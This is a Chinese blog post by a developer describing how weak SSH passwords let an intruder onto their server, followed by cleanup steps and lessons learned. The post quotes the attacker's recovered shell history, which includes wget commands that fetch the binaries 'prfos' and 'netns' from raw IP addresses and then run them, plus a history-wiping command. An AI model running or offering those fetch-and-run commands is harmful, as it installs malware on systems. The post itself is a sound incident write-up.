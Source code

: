 title: "服务器被黑了!"
date: 2015-04-14 00:01:27
tags:
  - 被黑了
  - 服务器日志
categories: 服务器
keywords:
  - Pandorabox
  - Hacked
  - 渣渣
  - Arylo
  - Lintel
---

> 20150413 11:15PM, 准备睡觉的时候, lintel大大打给我说, 服务器上传流量异常.

# 我是那个时刻准备着(误)的三好程序猿
作为一个门口埋好地雷, 深夜三分钟即时上线的程序员, 立刻打开那台慢到掉渣的手提, 来处理这事.

既然有上传, 就是说程序还在运行中, 而且这服务器还没有开始正式投入, 负载不高, 稍微`top`一下就发现一个叫`prfos`的程序在跑.
查了一下, 是git用户运行它的.
遭了, 那是调试用, 所以随便弄了个弱密码, 现在被别人弄进来了....哎..我的错

# 他干了什么?
我跳到`/home/git`目录, 发现`.bash_history`还在, 天助我也!!

## 这是他执行的命令

```
su arylo
w
cat /proc/cpuinfo
ls
w
cat /proc/cpuinfo
ls
ps -x
uname -a
ss
cd //tmp
wget http://122.224.32.6:5547/prfos
wget http://183.60.110.3:6219/netns
chmod 7777 ./netns
./netns
chmod 7777 ./prfos
./prfos
cat /dev/null > ./.bash_history
```

看到第一句, 我还是蛮开心的, 至少我的密码没有被破解, 估计他觉得和git一样是弱密码,
后面的基本不用说了, 下载木马, 运行它们.
但有一句让我哭笑不得的命令出现了
`cat /dev/null > ./.bash_history`
我不知道说他是小菜鸟还是粗心什么的, 竟然可以出现这样的失误...导致我看到以上这些命令

## 停止它吧
好了, 竟然知道运行了什么, 就搜一搜怎样消灭他呗
可是无论是谷娘还是度娘, 但就是没有相关杀除的信息, 是毒性不强的问题吧?
```
arylo@localhost:/tmp$ ps -A|grep prfos
20244 ?        00:57:31 prfos
arylo@localhost:/tmp$ ps -A|grep netns
   12 ?        00:00:00 netns
20219 ?        00:00:10 netns
```
只好手动rm他们, 再kill一下他们, 并祈祷不要再运行了

PS.主要是git用户运行的程序不多, 所以基本可以找到那个是有问题的

# 还有谁

```
arylo@localhost:/proc$ last
lintel   pts/1        li406-14.members Mon Apr 13 15:54   still logged in
arylo    pts/0        183.37.34.131    Mon Apr 13 15:06   still logged in
git      pts/0        58.46.18.253     Mon Apr 13 04:54 - 04:54  (00:00)
test     pts/0        113.98.255.48    Sun Apr 12 23:32 - 23:32  (00:00)
git      pts/0        114.112.54.22    Sun Apr 12 19:48 - 20:00  (00:11)
test     pts/0        192.3.159.181    Sat Apr 11 18:04 - 18:04  (00:00)
test     pts/0        27.112.8.214     Sat Apr 11 12:51 - 12:51  (00:00)
test     pts/0        li610-201.member Fri Apr 10 16:09 - 16:09  (00:00)
git      pts/0        198.23.132.34    Fri Apr 10 11:51 - 11:51  (00:00)
test     pts/0        f499.fuchsia.fas Thu Apr  9 04:54 - 04:54  (00:00)
test     pts/0        195.154.165.112  Wed Apr  8 13:36 - 13:36  (00:00)
test     pts/0        c099-250.cloud.g Tue Apr  7 09:17 - 09:17  (00:00)
test     pts/0        113.98.255.48    Mon Apr  6 16:35 - 16:35  (00:00)
test     pts/0        176.111.32.9     Mon Apr  6 14:54 - 14:54  (00:00)
arylo    pts/0        14.157.176.72    Sat Apr  4 06:40 - 14:00  (07:19)
arylo    pts/0        183.37.30.83     Fri Apr  3 16:52 - 20:12  (03:19)
arylo    pts/1        li729-87.members Fri Apr  3 10:17 - 10:34  (00:17)
arylo    pts/0        li729-87.members Fri Apr  3 09:24 - 10:20  (00:56)
arylo    pts/0        li729-87.members Fri Apr  3 09:13 - 09:24  (00:10)
arylo    pts/0        li729-87.members Fri Apr  3 09:11 - 09:13  (00:01)
arylo    pts/0        li729-87.members Fri Apr  3 08:47 - 09:08  (00:21)
git      pts/0        bolobolo1.torser Thu Apr  2 13:47 - 13:47  (00:00)
git      pts/0        tor.scenehoster. Thu Apr  2 13:19 - 13:20  (00:00)
```

为了保证以后的不再出现这种事情, last了一下,
精了Σ( ° △ °|||)︴
竟然这么多, IP都搜一下, 好像都是肉鸡, 好在没有对这服务器做什么...
除了git, 还有test, 都是弱密码的主...还是我的（﹀＿﹀）

# 总结

总结一下这件事所暴露的问题和解决方法
> Q: SSH一下被人登上了（┬＿┬）
> A: 改SSH的端口, 保证安全性
>
> Q: 弱密码惹的祸
> A: 以后不能这样了, 内部的都要改一下
>
> Q: 竟然被人运行了程序
> A: 以后真的要分配好权限...test用户给人跑进来了, 不过设置了`nologin`, 所以没事
> A: 还有还有, 以后真的一用户一类程序比较好
> A: 定期更新密码说不定是个好方法?
